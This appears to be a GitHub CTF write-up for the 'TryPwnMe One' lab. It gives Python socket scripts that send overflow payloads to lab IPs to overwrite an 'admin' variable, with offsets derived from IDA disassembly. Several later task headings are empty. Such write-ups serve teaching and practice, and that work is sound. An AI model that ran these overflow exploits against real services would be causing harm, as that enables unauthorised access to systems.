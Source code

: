 # TryPwnMe One

### TryOverflowMe 1
I developed the following exploit for this:<br />

    import socket
    
    ip = "10.10.7.174"
    
    port = 9003
    
    payload = "A"*45
    
    buffer = payload
    
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    
    try:
            s.connect((ip,port))
            response = s.recv(1024)
            print(response.decode())
    
            print("Sending payload...")
            s.send(bytes(buffer + "\r\n", "latin-1"))
    
            response = s.recv(4096)
            print("Response:\n", response.decode('latin-1'))
    
            print("Done!")
    except:
            print("Could not connect.")
![image](https://github.com/user-attachments/assets/d1cf6db5-ce6f-42cd-bb12-9ff6fe505327)<br />
But why 45 A's? If I open the binary on IDA, I can see that the buffer variable and the "admin" variable are 44 bytes apart:<br />
![image](https://github.com/user-attachments/assets/c886227a-d9f2-43e5-9eac-17de88f9ad3c)<br />
The buffer is at -30h, which is 48 bytes in decimal, and the admin variable is at -4h, which is 4 bytes in decimal. Their difference is 44, so I need to write at least 45 bytes to influence the admin variable.

### TryOverflowMe 2
I developed this exploit code for this task:

      import socket
      
      ip = "10.10.56.44"
      
      port = 9004
      
      payload = "A"*76
      
      admin = "\x59\x59\x59\x59"
      
      buffer = payload + admin
      
      s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      
      try:
              s.connect((ip,port))
              response = s.recv(1024)
              print(response.decode())
      
              print("Sending payload...")
              s.send(bytes(buffer + "\r\n", "latin-1"))
      
              response = s.recv(4096)
              print("Response:\n", response.decode('latin-1'))
      
              print("Done!")
      except:
              print("Could not connect.")
![image](https://github.com/user-attachments/assets/761f96a0-42ed-4b41-bdc8-d0f45e4b4a1a)<br />
The offset to reach the admin variable is 76, but why?<br />
![image](https://github.com/user-attachments/assets/973df8aa-ce49-4328-82e7-2db006752881)<br />
The buffer is located at ebp + 50h, which is 80 in decimal. Then there are two integers (check and guess), and then there's the admin variable. So to overflow the admin variable I have to put 80 - 4 - 4 bytes + 0x59595959.

### TryExecMe

### TryRetMe

### Random Memories

### The Librarian

### Not Specified
